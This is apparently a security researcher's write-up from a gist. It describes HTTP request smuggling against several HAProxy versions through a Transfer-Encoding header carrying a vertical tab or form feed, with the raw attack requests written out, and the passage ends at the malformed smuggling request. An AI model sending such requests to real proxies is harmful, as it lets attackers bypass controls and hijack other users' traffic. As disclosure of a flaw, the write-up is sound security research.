 ##
#
https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b
#
##

The following describes a technique to achieve HTTP request smuggling against infrastructure behind a HAProxy server when using specific configuration around backend connection reuse. This was tested against HAProxy versions 1.7.9, 1.7.11, 1.8.19, 1.8.21, 1.9.10, and 2.0.5. Of all these tested versions, only 2.0.5 was not vulnerable out of the box, although it is when using the `no option http-use-htx` configuration, which reverts back to the legacy HTTP decoder. 2.1 removed the legacy decoder so it is not affected.

To actually exploit HTTP smuggling using the issue described in this writeup, the backend server(s) behind HAProxy would  also have to be vulnerable in the sense they too would need to suffer from a bug, but one which parses and accepts a poorly formed Transfer-Encoding header (almost certainly violating RFC7230), and allows HTTP keep-alive.

## The HAProxy bug - sending both Transfer-Encoding and Content-Length

This is how HAProxy handles a request when Transfer-Encoding and Content-Length is provided together:

**Request to HAProxy:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

**Request forwarded to backend:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0

```

The request HAProxy sends to the backend has correctly prioritized Transfer-Encoding, and has stripped out the content length and cut off the "X" from the request, which went outside the boundry of the Transfer-Encoding request.

However, in the next request we have a `\x0b` (vertical tab) before the "chunked" string (note: `\x0c` aka form feed also works).

**Request to HAProxy:**
```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
```
